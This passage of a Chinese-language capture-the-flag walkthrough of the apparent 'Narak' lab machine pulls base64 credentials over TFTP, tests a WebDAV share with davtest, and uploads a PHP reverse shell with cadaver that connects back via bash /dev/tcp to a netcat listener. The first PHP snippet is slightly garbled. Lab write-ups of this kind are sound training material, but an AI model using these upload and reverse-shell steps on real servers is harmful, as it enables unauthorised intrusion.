 又发现 `http://192.168.xxx.132/tips.txt` ，提示为：“Hint to open the door of narak can be found in creds.txt.”

尝试访问一下：`http://192.168.xxx.132/creds.txt` ，然而并没能请求到该文件，说明这条路走不通。

接下来试试前文提到的 TFTP 服务：

``` bash
tftp 192.168.xxx.132
get creds.txt
```

欸，居然成功了。打开文件观察一下，发现是 base64 编码的，解码后返回一对账号密码：

![账号密码](https://raw.githubusercontent.com/Catsofsuffering/PicGoBed/main/20230419090129.png)

登录 Webdav ，结果发现没有任何可利用的文件，想到能不能写入文件，从 kali 的工具手册找到 Devtest 工具。

{% blockquote Kali Docs https://www.kali.org/tools/davtest/ %}
DAVTest tests WebDAV enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target. It is meant for penetration testers to quickly and easily determine if enabled DAV services are exploitable.
{% endblockquote %}

Devtest 这个工具就是用来测试 WebDAV 有哪些文件允许上传，并且能够上传 shell 文件。

``` bash
sudo davtest -auth yamdoot:Swarg -cleanup -url http://192.168.118.132/webdav
```

测试结果如下：

![davtest 测试结果](https://raw.githubusercontent.com/Catsofsuffering/PicGoBed/main/20230419095443.png)

可以看到，php文件师是能够执行的，这里可以直接写入 webshell 用工具连接，也可以写入一句话反弹 shell 。此处选择后者：

``` php
<?php exec("\bin\bash -c 'bash -i >& /dev/tcp/192.168.xxx.130/ 0>&1'");?>
```

{% blockquote Kali Docs https://www.kali.org/tools/cadaver/%}
cadaver supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking.

Its operation is similar to the standard BSD ftp(1) client and the Samba Project’s smbclient(1).

This package includes GnuTLS (HTTPS) support.

WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.
{% endblockquote %}

cadaver 是一个可以用来访问和编辑web服务器上的文件的工具，kali 系统中默认装有此软件，因此用 cadaver 通过之前活得的用户名与密码，写入 `shell.php` 上传，使用 nc 监听端口，然后请求 `http://192.168.xxx.132/webdav/shell.php`：

``` bash
echo "<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.xxx.130/2333 0>&1'");?>" > shell.php
cadave http://192.168.xxx.132 # then enter User ID and passwd
put /path/to/shell.php
nc -lvvp 2333
```

可以看到已经回弹 shell 了，是 `www-data` 用户